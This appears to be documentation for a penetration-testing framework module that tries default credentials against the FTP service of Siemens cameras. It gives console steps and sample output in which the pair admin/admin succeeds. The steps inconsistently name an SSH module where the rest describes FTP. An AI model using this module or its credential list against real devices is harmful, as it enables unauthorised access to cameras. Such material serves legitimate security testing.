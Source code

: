 ## Description

Module performs dictionary attack with default credentials against Siemens Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use creds/cameras/siemens/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/siemens/ftp_default_creds
rsf (Siemens Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Siemens Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
